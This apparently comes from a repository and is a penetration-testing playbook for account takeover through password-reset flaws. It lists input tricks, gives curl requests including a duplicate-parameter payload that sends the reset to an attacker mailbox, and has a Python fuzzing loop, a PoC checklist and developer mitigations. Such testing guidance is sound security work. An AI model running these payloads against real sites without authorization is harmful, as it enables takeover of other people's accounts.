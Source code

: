 # Account Takeover via Password Reset — Short Playbook & Examples — OmniWatch (adce626)

**Scope:** Authorized testing only (staging/CTF). Log everything.

## Objective
Find bugs in password‑reset flows that deliver reset links/tokens to attacker‑controlled mailboxes or allow resetting a victim password.

## Quick methodology (short)
- Baseline: perform a normal reset and capture request/response + outgoing email.  
- Low‑risk probes: whitespace, plus‑tags, duplicate params, case/unicode variants.  
- Escalation (staging): null bytes, control chars, double‑encoding, large payloads, race tests.  
- When you hit positive: minimize payload to the smallest reproducible example and collect raw requests, email headers, and screenshots.

## Key checks (very short)
- **Empty/omitted**: missing or null email fields.  
- **Whitespace**: prefix/suffix spaces or newlines.  
- **Duplicate params**: query + body or multipart differences.  
- **Form vs JSON**: `application/x-www-form-urlencoded` binding differences.  
- **Plus addressing**: `victim+tag@example.com`.  
- **Case/unicode**: homoglyphs or case variants.  
- **Control chars / null bytes**: header injection or truncation (staging).  
- **Double‑encoded / BOM / encoding tricks**: layered decoders.  
- **Domain edge cases**: localhost, 127.0.0.1, IDN/punycode.  
- **Comma lists / malformed domains**: multiple recipients or invalid domains.

## Practical examples (keep these exact — run in lab)

**Simple JSON reset:**

```bash
curl -i -X POST "https://target.example/pw-reset"   -H "Content-Type: application/json"   -d '{"email":"victim@example.com"}'
```

**Duplicate param (query + body):**

```bash
curl -i -X POST "https://target.example/pw-reset?email=attacker@b.com"   -H "Content-Type: application/json"   -d '{"email":"victim@example.com"}'
```

**Whitespace payload:**

```bash
curl -i -X POST "https://target.example/pw-reset"   -H "Content-Type: application/json"   -d $'{"email":" victim@example.com
"}'
```

**Form‑encoded nested:**

```bash
curl -i -X POST "https://target.example/pw-reset"   -H "Content-Type: application/x-www-form-urlencoded"   --data 'user[email]=victim@example.com'
```

## Simple automation skeleton (lab only)

```python
import requests
payloads = [
  {"email":"victim@example.com"},
  {"email":"victim+test@example.com"},
  {"email":" victim@example.com"},
  {"email":""},
  {"email":None},
]
url = "https://target.example/pw-reset"
for p in payloads:
    r = requests.post(url, json=p, timeout=8, verify=True)
    print(p, r.status_code, len(r.content))
```

## Minimal PoC checklist
- Save raw request + raw response that triggered the email.  
- Save raw inbound email (full headers + body).  
- Use token/link to reset in isolated session; capture proof.  
- Reduce to minimal reproducer and document which layer consumed which value (query/body/form).

## Quick mitigations (devs)
- Trim, Unicode normalize, strip control chars, decode before validation.  
- Reject empty/missing fields (4xx).  
- Require exact verified email match for resets.  
- Sign tokens (HMAC), bind to user ID and short TTL.  
- Rate limit & captcha for high volume flows.  
- Escape templates and sanitize headers.

